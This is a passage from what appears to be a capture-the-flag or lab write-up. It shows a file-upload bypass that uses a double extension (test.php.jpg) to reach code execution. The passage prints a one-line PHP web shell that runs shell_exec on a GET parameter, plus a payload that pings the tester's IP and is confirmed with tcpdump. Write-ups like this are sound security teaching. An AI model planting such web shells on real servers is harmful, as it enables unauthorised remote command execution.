10) Upon trying to access new.php.jpeg, it wasn't found, because, it wasn't uploaded.</br>
11) I again tried uploading test.php.jpg, and access /images/uploads/test.php.jpg with the php code attached `<?php echo shell_exec($_GET[’e’].’ 2>&1’); ?>` and it gave code execution


![](Pictures/code_execution.png)

## Getting code execution

So it appended the code `<?php system("ping -c4 10.10.14.12")?>` in the image. Then tried to access it while listening on tcpdump.

```
sudo tcmpdump -i tun0 
```

I got pings from the server.
